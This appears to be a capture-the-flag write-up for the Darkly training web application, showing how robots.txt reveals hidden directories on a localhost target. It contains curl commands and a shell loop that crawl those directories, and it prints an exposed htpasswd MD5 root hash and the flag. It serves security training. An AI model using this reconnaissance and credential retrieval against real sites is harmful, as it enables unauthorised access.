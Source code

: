# Search Engine Discovery Breach

## Vulnerability Found
The Darkly web application exposes sensitive information through its `robots.txt` file, leading to information disclosure.

## Commands

```sh
  curl -s http://localhost:8080/robots.txt
  curl -s http://localhost:8080/.htaccess
  curl -s http://localhost:8080/sitemap.xml
  curl -s -I http://localhost:8080/
  curl -s http://localhost:8080/whatever/
  curl -s http://localhost:8080/.hidden/
  curl -s http://localhost:8080/whatever/htpasswd
  curl -s http://localhost:8080/.hidden/README
  curl -s http://localhost:8080/.hidden/whtccjokayshttvxycsvykxcfm/
  curl -s http://localhost:8080/.hidden/whtccjokayshttvxycsvykxcfm/igeemtxnvexvxezqwntmzjltkt/README
  curl -s http://localhost:8080/.hidden/whtccjokayshttvxycsvykxcfm/igeemtxnvexvxezqwntmzjltkt/lmpanswobhwcozdqixbowvbrhw/README

  for dir in $(curl -s http://localhost:8080/.hidden/ | grep -oP 'href="[^/]+/"' | cut -d'"' -f2 | head -5); do
      echo "Checking $dir:";
      curl -s "http://localhost:8080/.hidden/$dir" | grep -E '(README|flag|\.txt)' | head -3;
  done

  python3 search_engine_discovery_exploit.py
```

## Attack Vector
1. **robots.txt exposure** at `http://localhost:8080/robots.txt`
   - Reveals two hidden directories:
     - `/whatever`
     - `/.hidden`

## Findings

### 1. Exposed Password Hash
- Location: `http://localhost:8080/whatever/htpasswd`
- Content: `root:437394baff5aa33daa618be47b75cb49`
- This is an MD5 hash of the root password

### 2. Hidden Directory Structure
- Location: `http://localhost:8080/.hidden/`
- Contains a complex nested directory structure with 18,279 directories
- Each directory contains a README file
- One of the README files contains the flag

### 3. Flag Discovery
- Flag found in one of the README files:
  ```
  d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
  ```

## OWASP Reference
- OWASP Testing Guide: [4.1.1 - Conduct Search Engine Discovery](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/01-Information_Gathering/01-Conduct_Search_Engine_Discovery_Reconnaissance_for_Information_Leakage)
